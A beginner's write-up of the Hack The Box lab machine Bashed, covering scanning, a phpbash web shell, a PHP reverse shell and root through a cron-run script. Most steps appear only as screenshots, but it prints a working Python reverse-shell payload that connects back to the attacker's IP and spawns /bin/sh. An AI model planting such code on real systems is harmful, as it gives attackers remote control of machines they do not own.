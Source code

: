 # Bashed

This is my write-up for the machine Bashed on Hack The Box located at: [https://app.hackthebox.com/machines/Bashed](https://app.hackthebox.com/machines/Bashed).

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

basic nmap scan: nmap `10.10.10.68`

![](<../../.gitbook/assets/image (349) (1).png>)

We can see that port 80 (http) is open. I did a deeper nmap scan as well:

![](<../../.gitbook/assets/image (333) (1) (1).png>)

The port open is still the same. Going to the http site, we see the following:

![](<../../.gitbook/assets/image (354) (1) (1).png>)

I got a hint from this that **phpbash** is being used on the server and that I will have to exploit it. I ran **gobuster** to see what directories were available:

![](<../../.gitbook/assets/image (356) (1) (1).png>)

The **uploads** directory was empty, and I believe we will have to upload a shell there. The **php** directory had the following:

![](<../../.gitbook/assets/image (329).png>)

The file was empty when downloaded. Looking in the **dev** folder, I was able to find the shell:

![](<../../.gitbook/assets/image (328) (1).png>)

I was then able to find the user.txt flag:

![](<../../.gitbook/assets/image (357) (1) (1) (1).png>)

Running `sudo -l`, I was able to see the following:

![](<../../.gitbook/assets/image (337) (1) (1).png>)

I then realized I would have to upload a reverse shell to the system. There were two ways in my mind: **netcat** and **pentestmonkey php-reverse-shell**. I tried the **pentestmonkey** option first. I downloaded it from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and then edited the IP address to be mine and then was able to upload it using `python3 -m http.server`.&#x20;

![](<../../.gitbook/assets/image (346) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (358) (1) (1) (1).png>)

I then accessed the file on the website and was able to get a reverse shell using **netcat**:

![](<../../.gitbook/assets/image (344) (1) (1).png>)

![](<../../.gitbook/assets/image (347) (1) (1) (1).png>)

After a while of searching for a way to get out of a limited shell, I found [this site](https://guide.offsecnewbie.com/shells), where I saw the following:

![](<../../.gitbook/assets/image (343) (1).png>)

Running that command got me out of the limited shell:

![](<../../.gitbook/assets/image (334) (1) (1) (1).png>)

The `sudo -l` command from before shows us that the user we currently are has access to run commands as **scriptmanager**. A quick Google search showed me that to run a command as another user is to run `sudo -u scriptmanager`. I wanted to get a reverse shell as the **scriptmanager** user:

![](<../../.gitbook/assets/image (360) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (345) (1) (1).png>)

I edited the payload from [this website](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

![](<../../.gitbook/assets/image (350) (1) (1) (1).png>)

I get the same error as before:

![](<../../.gitbook/assets/image (355) (1).png>)

When I ran linpeas (not shows in write-up, but uploaded the same way as the reverse shell), I noticed that there was a folder called **scripts**:

![](<../../.gitbook/assets/image (339) (1) (1).png>)

The code writes text to a file. At this point, I was actually lost. I found [this write-up](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/) that clarifies that I should have been focused on the cron jobs and noticed that the file is ran by root in the cron job. I changed the original test.txt file by overwriting it by doing the following:

![](<../../.gitbook/assets/image (351) (1).png>)

The content of the file was the following (from the write-up mentioned before):

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

I was then able to get root (after a minute) and the root flag:

![](<../../.gitbook/assets/image (352) (1).png>)

Going back to see where my mistake was, I should have noticed this in the output of linpeas.sh:

![](<../../.gitbook/assets/image (359) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (348) (1) (1) (1) (1).png>)

